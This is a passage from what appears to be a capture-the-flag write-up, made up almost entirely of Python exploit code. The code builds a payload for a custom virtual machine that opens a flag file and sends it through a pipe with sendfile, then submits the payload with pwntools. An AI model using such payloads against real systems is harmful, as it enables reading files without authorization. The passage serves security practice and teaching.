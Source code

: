 ```py
    payload += mov_imm(1, 8)
    payload += mov_to_mem(1, 0)
    
    payload += mov_imm(8, 2) # SYS_open
    
    # filename = &mem[0]
    payload += mov_imm(9, 0x4060+100) # &mem[0x0000]
    payload += add(9, 3) # + exe base
    
    payload += mov_imm(10, 0) # flags
    payload += mov_imm(10, 0) # mode
    
    payload += syscall(payload)
    
    
    ###
    # sendfile( child, flag_file, 0, 100 )
    payload += mov_reg(10, 8) # in_fd

    payload += mov_imm(8, 40) # SYS_sendfile
    
    # out_fd = pipe
    payload += mov_imm(0, 0x2010)
    payload += mov_from_mem(9, 0)
    
    payload += mov_imm(11, 0)   # offset
    payload += mov_imm(12, 100) # size
    
    payload += syscall(payload)
    
    payload += halt()
    
    assert len(payload) < 0x40b
    
    payload += b'B' * (0x40b - len(payload))

    assert len(payload) == 0x40b # child_loop
    
    # Jump to the start of the child code, we do this instead of putting all the child payload here
    # and it potentially getting too long that it ends up in two read()'s from stdin
    payload += jump_imm(child_start)
    
    return payload
```

Finally we send this payload and wait for the flag to magically appear

```py
io.sendlineafter(b'Flag', full_payload())
io.sendlineafter(b'Flag', b'')
print(io.recvall())
io.wait()
```
